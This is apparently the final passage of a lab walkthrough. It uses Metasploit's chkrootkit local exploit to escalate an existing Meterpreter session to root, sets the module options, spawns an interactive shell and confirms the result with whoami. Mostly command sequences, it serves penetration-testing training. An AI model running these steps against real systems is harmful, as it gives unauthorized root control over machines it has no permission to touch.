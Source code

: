 ```bash
background
```

Search for the **chkrootkit exploit** module:

```bash
search chkrootkit
```

Use the **chkrootkit local privilege escalation** exploit:

```bash
use exploit/unix/local/chkrootkit
```

Show the available options:

```bash
show options
```

Display detailed information about the exploit:

```bash
info
```

Set the path to the vulnerable `chkrootkit` binary:

```bash
set CHKROOTKIT /bin/chkrootkit
```

Run the exploit on the **Meterpreter session** (session 2):

```bash
set SESSION 2
set LHOST eth1
exploit
```

### Verifying Root Access

After successfully exploiting the vulnerability, switch to an interactive shell:

```bash
/bin/bash -i
```

Verify that you now have **root** privileges:

```bash
whoami
```

### Conclusion

What we accomplished:
- Gained initial access to the target system via **SSH login** using Metasploit.
- Performed basic system enumeration and identified that **chkrootkit** was running on the target.
- Verified that the installed version of **chkrootkit** was vulnerable to a local privilege escalation exploit.
- Used Metasploit's **chkrootkit** exploit to escalate privileges from a normal user to **root**, gaining full control of the target system.
